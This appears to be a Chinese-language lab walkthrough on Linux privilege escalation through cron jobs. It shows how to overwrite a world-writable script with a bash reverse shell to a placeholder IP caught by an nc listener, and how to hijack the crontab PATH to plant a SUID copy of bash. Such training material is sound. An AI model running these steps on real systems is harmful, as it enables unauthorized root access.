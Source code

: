应该有两个 cron 任务被安排在每分钟运行一次。一个运行 `overwrite.sh` ，另一个运行 `/usr/local/bin/compress.sh` 。

定位 `overwrite.sh` 文件的完整路径：

```shell
locate overwrite.sh
```

请注意，该文件是可被所有用户写入的。

```shell
ls -l /usr/local/bin/overwrite.sh
```

将 `overwrite.sh` 文件的内容替换为以下内容，将其中的 IP 地址更改为您 Kali 系统的 IP 地址后：

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

在您的 Kali 系统上的端口 4444 上设置一个 netcat 监听器，并等待 cron 任务运行（不应超过一分钟）。一个 root shell 应该会连接回您的 netcat 监听器。如果没有连接回来，请重新检查文件的权限，看是否有什么遗漏？

```shell
nc -nvlp 4444
```

请记得在继续之前退出 root shell 并移除反向 shell 代码！

## 定时任务 - PATH 环境变量

查看系统范围的 crontab 内容：

```shell
cat /etc/crontab
```

请注意，PATH 变量以 `/home/user` 开头，这是我们用户的主目录。

在您的主目录下创建一个名为 `overwrite.sh` 的文件，并添加以下内容：

```shell
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

确保该文件是可执行的：

```shell
chmod +x /home/user/overwrite.sh
```

等待 cron 任务运行（不应超过一分钟）。使用 -p 参数运行 `/tmp/rootbash` 命令，以获取以 root 权限运行的 shell。

```shell
/tmp/rootbash -p
```

记得在继续之前移除修改过的代码，删除 `/tmp/rootbash` 可执行文件，并退出提升权限的 shell，因为您稍后会再次创建这个文件！
